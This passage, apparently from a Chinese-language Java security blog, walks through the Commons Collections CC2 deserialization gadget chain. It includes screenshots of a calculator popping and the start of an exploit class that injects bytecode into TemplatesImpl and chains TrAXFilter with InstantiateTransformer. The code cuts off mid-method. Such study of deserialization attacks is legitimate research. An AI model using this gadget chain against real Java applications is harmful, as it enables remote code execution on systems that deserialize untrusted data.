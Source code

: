 ```java
    }
}
```

成功弹出计算器。

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231208121303.png)

调试细看一下为什么能执行：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231208123039.png)

有点凑巧的感觉。

注：<<、>>、<<<、>>>的含义：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231208124006.png)

## 利用CC3作为后半部分

exp：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Comparator;
import java.util.PriorityQueue;

public class CC2_TemplatesImpl_8u65 {
    private static void setFiledValue(Object obj, String fieldName, Object fieldValue) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, fieldValue);
    }
    public static void main(String[] args) throws Exception{
        byte[] codes = Files.readAllBytes(Paths.get("E:\\研究生\\JavaSec\\code\\target\\classes\\Calc.class"));
        byte[][] _bytecodes = new byte[][] {codes};
        TemplatesImpl templates = new TemplatesImpl();
        setFiledValue(templates, "_bytecodes", _bytecodes);
        setFiledValue(templates, "_name", "whatever");
        setFiledValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer[] faketransformer = new org.apache.commons.collections4.Transformer[]{new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        };
        Transformer transformerChain = new ChainedTransformer(faketransformer);
```